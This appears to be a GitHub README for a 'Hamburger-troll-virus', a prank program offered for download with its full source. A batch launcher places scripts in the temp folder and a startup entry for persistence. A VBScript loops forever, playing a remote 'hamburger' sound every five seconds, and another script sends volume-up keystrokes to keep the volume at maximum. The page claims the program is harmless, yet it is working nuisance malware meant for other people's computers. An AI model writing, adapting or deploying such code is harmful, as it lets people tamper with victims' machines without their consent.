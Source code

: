 ![hamburger](http://leoaqua.de/hamburger.ico)
# Hamburger-troll-virus

# What does it do?

It let's your PC say "HAMBURGER" every 5 seconds with full volume after login or reboot

# FAQ
 Is it dangerous?
 - No 
 
 How can I get rid of it?
 
 - Execute uninstall.exe 
 
 It does not start!
 
 - Just wait or log off
 
 
# Download

[Releases](https://github.com/Leo-Aqua/Hamburger-troll-virus/releases)
 
# How it works

- launcher.bat

```Batchfile
@echo off
move hamburger.vbs %temp%
move volup.vbs %temp%
move tab.bat "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
move launcher.bat %temp%
```
Installs files




- hamburger.vbs

```VBScript
While true
Dim oPlayer
Set oPlayer = CreateObject("WMPlayer.OCX")
wscript.sleep 5000
oPlayer.URL = "https://www.myinstants.com/media/sounds/hamburger-sound-effect.mp3"
oPlayer.controls.play
While oPlayer.playState <> 1 ' 1 = Stopped
WScript.Sleep 100
Wend
oPlayer.close
Wend
```

Plays the _"hamburger"_ sound every 5 seconds

- volup.vbs
```VBScript
do
wscript.sleep 50
Set WshShell = CreateObject("WScript.Shell")
WshShell.SendKeys(chr(&hAF))
loop
```
raises volume to max using _"sendkeys"_ command

- tab.bat
```Batchfile
cd %temp%
start hamburger.vbs
start volup.vbs
exit
```
Starts everything

# Compiler
IExpress

LMAO🤣

